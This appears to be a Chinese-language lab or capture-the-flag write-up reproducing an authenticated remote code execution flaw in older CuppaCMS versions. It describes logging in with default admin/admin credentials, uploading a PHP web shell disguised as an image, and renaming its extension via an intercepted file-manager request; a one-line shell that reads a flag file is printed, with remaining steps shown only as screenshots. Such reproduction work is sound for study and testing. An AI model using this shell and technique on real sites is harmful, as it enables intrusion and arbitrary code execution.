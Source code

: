## 1. 漏洞介绍

CuppaCMS是一套内容管理系统（CMS）。 CuppaCMS 2019-11-12之前版本存在安全漏洞，攻击者可利用该漏洞在图像扩展内上传恶意文件，通过使用文件管理器提供的重命名函数的自定义请求，可以将图像扩展修改为PHP，从而导致远程任意代码执行。

[Authenticated Remote code Execution · Issue #7 · CuppaCMS/CuppaCMS · GitHub](https://github.com/CuppaCMS/CuppaCMS/issues/7)

## 2. 漏洞复现

登录：admin/admin

上传图片格式的shell，示例

```PHP
<?php system("cat /flag");?>
```

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202401022336064.png)

抓包改后缀

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202401022337611.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202401022337707.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202401022337547.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202401022337549.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202401022337550.png)
